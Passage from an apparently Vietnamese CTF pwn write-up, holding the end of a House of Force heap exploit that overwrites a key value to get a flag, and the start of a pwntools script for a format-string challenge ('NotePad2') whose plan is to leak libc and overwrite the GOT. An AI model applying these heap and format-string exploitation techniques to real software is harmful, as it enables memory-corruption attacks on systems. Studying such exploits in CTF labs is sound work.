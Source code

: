 ```python
log.success("top chunk %#x", top_chunk)

# Overflow top chunk size field
create(2, b'AAAA', 10)
edit(2, b'A' * 24 + p64(0xffffffffffffffff))

offset = (key - 0x30) - (top_chunk)
log.info("Offset for next malloc %#x\n", offset)

# Malloc to place the top chunk near the key address
create(3, b'', offset)

# Change key value
create(4, b'A' * 12 + p64(0xcafebabe), 40)

# Get flag
io.sendlineafter(b'> ', b'5')
io.interactive()
```

----------


## NotePad2


đọc wu mới thấy bug fmt  :)))) 

- bài này kh có hàm win , nên sẽ leak libc trước , sau đó thì overwrite GOT như các bài FSB bình thường 

payload này của author hình như bị lỗi , cần chỉnh sửa lại :>>

```python
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
'''.format(**locals())

exe = './chal_patched'
elf = context.binary = ELF(exe, checksec=False)
context(terminal=['tmux', 'split-window', '-h'], binary=elf, log_level='info')
libc = ELF('./libc.so.6', checksec=False)
ld = ELF('./ld-linux-x86-64.so.2', checksec=False)

def create(io, idx, payload):
    io.sendlineafter(b'> ', b'1')
    io.sendlineafter(b'> ', str(idx).encode('utf-8'))
    io.sendlineafter(b'> ', payload)

def view(io, idx):
    io.sendlineafter(b'> ', b'2')
    io.sendlineafter(b'> ', str(idx).encode('utf-8'))

def remove(io, idx):
    io.sendlineafter(b'> ', b'3')
    io.sendlineafter(b'> ', str(idx).encode('utf-8'))
```